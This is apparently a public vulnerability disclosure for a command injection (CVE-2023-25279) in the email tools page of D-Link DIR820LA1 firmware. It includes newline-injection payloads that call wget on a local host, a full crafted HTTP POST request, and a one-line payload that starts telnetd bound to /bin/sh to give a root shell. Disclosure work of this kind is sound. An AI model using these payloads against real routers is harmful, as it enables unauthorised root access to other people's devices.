





# D-link DIR820LA1_FW105B03 Command injection vulnerability

A command injection vulnerability  exists in several variables of the component "/tools_email.asp" of D-Link DIR820LA1_FW105B03 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

## 1. Affected version

DIR820LA1_FW105B03

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_5129BC` function obtains the content of the variable `emailCfg_AccountName_1.1.0.0`、`emailCfg_SMTPServerAddress_1.1.0.0`、` emailCfg_EmailTo_1.1.0.0`、`emailCfg_EmailFrom_1.1.0.0`  from the request of `/tools_email.asp`, and splicing the parameters of the system causes the command to be executed.



Command execution defense bypass. The function `hasInjectionString` filters the written instructions, but it does not filter `%0a`,`$` and other symbols, resulting in bypass. See poc for specific methods.



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW105B03.bin

​	

2. Attack with the following POC attacks

​	**Attack Vector1**：`emailCfg_AccountName_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector2**：`emailCfg_SMTPServerAddress_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector3**：`emailCfg_SMTPServerAddress_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector4**：`emailCfg_EmailFrom_1.1.0.0=%0awget http://192.168.0.2%0a`

- First use `sudo python3 -m http.server80` to build a web server locally, and you will see the echo



- Then find the Tool Email entry, and use Burp to modify the data message to be consistent with the poc

```xml
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 542
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/tools_email.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=set&ccpSubEvent=CCP_SUB_WEBPAGE_APPLY&nextPage=tools_email.asp&emailCfg_Enable_1.1.0.0=1&emailCfg_EmailFrom_1.1.0.0=aaa&emailCfg_EmailTo_1.1.0.0=123&emailCfg_SMTPServerAddress_1.1.0.0=123&emailCfg_SMTPServerPort_1.1.0.0=25&emailCfg_AuthenticationEnable_1.1.0.0=1&emailCfg_AccountName_1.1.0.0=%0awget http://192.168.0.2%0a&emailCfg_AccountPassword_1.1.0.0=WDB8WvbXdHtZyM8Ms2RENgHlacJghQyGWDB8WvbXdHtZyM8Ms2RENgHlacJghQyG&emailCfg_LogOnFullEnable_1.1.0.0=1&emailCfg_LogOnScheduleEnable_1.1.0.0=1&emailCfg_LogScheduleIndex_1.1.0.0=254&1675062771722=1675062771722
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell，Such as`emailCfg_AccountName_1.1.0.0=%0atelnetd -l /bin/sh -p 10000 -b 0.0.0.0%0a`


## Disclosure

- Feb 7, 2023:Public disclosure

- Mar 7, 2023:Assign CVE number CVE-2023-25279